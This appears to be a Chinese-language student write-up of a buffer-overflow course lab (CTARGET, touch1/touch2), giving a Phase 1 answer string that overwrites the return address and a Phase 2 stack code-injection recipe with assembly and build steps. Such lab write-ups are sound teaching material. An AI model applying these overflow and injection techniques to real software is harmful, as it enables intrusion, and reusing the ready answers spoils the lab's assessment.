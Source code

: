 注意第二行，栈有 `0x28` 即 40 个字节，注意 x86-64 在函数调用时会自动将返回地址压入栈，因此调用函数时栈顶就是返回地址，只要修改它就能调用其他的函数了，输入 40 个字节后，使栈溢出，再输入个地址就能破坏 `getbuf` 返回地址（因为栈是向下增长的，而读入的字符串会向高地址进行写入），返回时就会调用修改了的地址对应的函数，这里的是个八字节的 64 位地址，按题目要求就是 `touch1` 函数的地址， `00000000004017c0 <touch1>:` ，注意这里机器要用小端法存入地址写成： `c0 17 40 00 00 00 00 00` ，因此第一题答案就是任意 40 个字节加上该地址。
所以答案可以是：

```cpp
 41 41 41 41 41 41 41 41 41 41
 41 41 41 41 41 41 41 41 41 41
 41 41 41 41 41 41 41 41 41 41
 41 41 41 41 41 41 41 41 41 41
 c0 17 40 00 00 00 00 00 
```

###   Phase 2

>   Phase 2 involves injecting a small amount of code as part of your exploit string
>
>   第2阶段涉及注入少量代码作为攻击字符串的一部分。

touch2代码

```cpp
void touch2(unsigned val)
{  
    vlevel = 2; /* Part of validation protocol */ 
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

>   Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,however, you must make it appear to touch2 as if you have passed your cookie as its argument.
>
>   您的任务是让CTARGET执行touch2的代码，而不是返回测试。在这种情况下，然而，您必须使它看起来像touch2，就好像您已经将cookie作为参数传递了一样。

这题需要我们注入一些代码作为攻击一部分。同样的，需要跳转到`touch2`函数，这与上题一样，不同的是，这里我们要使用注射代码给寄存器`rdi`赋值，使其等于我们的cookie（cookie的值可以在同级目录cookie.txt中查看）。具体的，我们需要注射如下代码，将`rdi`正确赋值后，再通过`push` 函数`touch2`的首地址压入栈，随后`ret`出栈进入`touch2`。

```assembly
movq $0x59b997fa,%rdi
pushq $0x004017ec
retq
```

代码注入攻击，通常是输入给程序一个字符串，这个字符串包含一些可执行代码的字节编码，称为攻击代码，再利用一些字节使得一个指向攻击代码的指针将原来的返回地址覆盖，那么执行`ret`指令的效果就是跳转到攻击代码。

将注入代码保存为 `code.s` 文件，参考文档，使用 `gcc -c code.s` 编译，再用 `objdump -d code.o > code.d` 反汇编就能得到十六进制表示的机器代码了，将这段代码通过 `getbuf` 放入栈中（首地址在栈顶，可以通过 `gdb` 在栈空间开辟后打个断点，打印 `%rsp` 的值就是栈顶了），再和第一题一样填充到40字节，结尾加上注入代码的地址就是答案了。这样我们的攻击代码在栈空间开辟就存储在了栈顶的位置，随后通过`ret`再返回到攻击代码，执行攻击。
